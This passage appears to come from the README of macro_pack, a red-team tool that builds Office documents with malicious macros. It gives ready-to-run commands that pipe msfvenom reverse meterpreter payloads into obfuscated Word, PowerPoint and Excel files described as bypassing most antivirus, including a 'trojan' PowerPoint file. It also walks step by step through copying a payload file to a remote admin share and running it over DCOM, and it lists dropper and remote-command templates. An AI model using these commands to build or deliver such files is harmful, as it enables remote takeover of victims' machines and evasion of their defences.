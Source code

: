 - Generate a Word file containing VBA self encoded x64 reverse meterpreter VBA payload (will bypass most AV). Keep-alive is needed because we need meterpreter to stay alive before we migrate.
```bash
msfvenom.bat -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.0.5 -f vba |  macro_pack.exe -o --vbom-encode --keep-alive  -G  out.docm
```

- Trojan a PowerPoint file with a reverse meterpreter. Macro is obfuscated and mangled to bypass most antiviruses. 
```bash
msfvenom.bat -p windows/meterpreter/reverse_tcp LHOST=192.168.0.5 -f vba |  macro_pack.exe -o --av-bypass --trojan -G  hotpics.pptm
```

- Execute a macro on a remote PC using DCOM
```batch
REM Step 1: Ensure you have enough rights
net use  \\192.168.0.8\c$ /user:domain\username password

REM Step 2: Generate document, for example here, meterpreter reverse TCP Excel file
echo 192.168.0.5 4444 | macro_pack.exe -t METERPRETER -o -G meter.xlsm
REM Step 3: Copy the document  somewhere on remote share
copy meter.xlsm "\\192.168.0.8\c$\users\username\meter.xlsm"
REM Step 4: Execute!
macro_pack.exe --dcom="\\192.168.0.8\c$\users\username\meter.xlsm"

REM Step 2 to 4 in one step:
echo 192.168.0.5 4444 | macro_pack.exe -t METERPRETER -o -G "\\192.168.0.8\c$\users\username\meter.xlsm" --dcom="\\192.168.0.8\c$\users\username\meter.xlsm"

```



## All available options

### General options:
```
    -f, --input-file=INPUT_FILE_PATH A VBA macro file or file containing params for --template option 
        If no input file is provided, input must be passed via stdin (using a pipe).
        
    -q, --quiet \tDo not display anything on screen, just process request. 
    
    -p, --print \tDisplay result file on stdout (will display VBA for Office formats)
        Combine this option with -q option to pipe result into another program
        ex: cat input_file.vba | macro_pack.exe -o -G obfuscated.vba -q -p | another_app
    
    -o, --obfuscate \tSame as '--obfuscate-form --obfuscate-names --obfuscate-strings'
    --obfuscate-form\tModify readability by removing all spaces and comments in VBA
    --obfuscate-strings\tRandomly split strings and encode them
    --obfuscate-names \tChange functions, variables, and constants names
    
    -s, --start-function=START_FUNCTION   Entry point of macro file 
        Note that macro_pack will automatically detect AutoOpen, Workbook_Open, or Document_Open  as the start function
        
    -t, --template=TEMPLATE_NAME    Use VBA template already included in macro_pack.exe.
        Available templates are: HELLO, CMD, REMOTE_CMD, DROPPER, DROPPER2, DROPPER_PS, DROPPER_DLL, METERPRETER, WEBMETER, EMBED_EXE, EMBED_DLL 
        Help for template usage: macro_pack.exe -t help
         
    -G, --generate=OUTPUT_FILE_PATH. Generates a file. Will guess the format based on extension.
        Supported Ms Office extensions are: doc, docm, docx, dotm, xls, xlsm, xslx, xltm, pptm, potm, vsd, vsdm, mpp.
```
